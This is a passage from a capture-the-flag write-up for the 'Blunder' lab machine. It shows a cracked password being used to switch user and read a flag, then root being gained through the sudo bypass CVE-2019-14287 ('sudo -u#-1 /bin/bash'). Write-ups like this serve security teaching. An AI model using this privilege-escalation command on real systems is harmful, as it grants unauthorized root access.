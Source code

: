 The password hash can be cracked online with Crackstation or a similar site: `Password120`

```
www-data@blunder:/var/www$ su -l hugo
su -l hugo
Password: Password120

hugo@blunder:~$ cat user.txt
cat user.txt
4b411f0fc0e09a1091c6de87d1f91aaf
```

## Privesc

The sudoers privileges our user has don't appear to give us anything we can use since it explicitely blocks root.
```
hugo@blunder:~$ sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```


However, because of CVE-2019-14287 in sudo, we can bypass the username check by using `#-1` and we get a root shell.
```
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/home/hugo# id
id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
5d649f5bcb1be5f93702a7a71cd4d77e
```
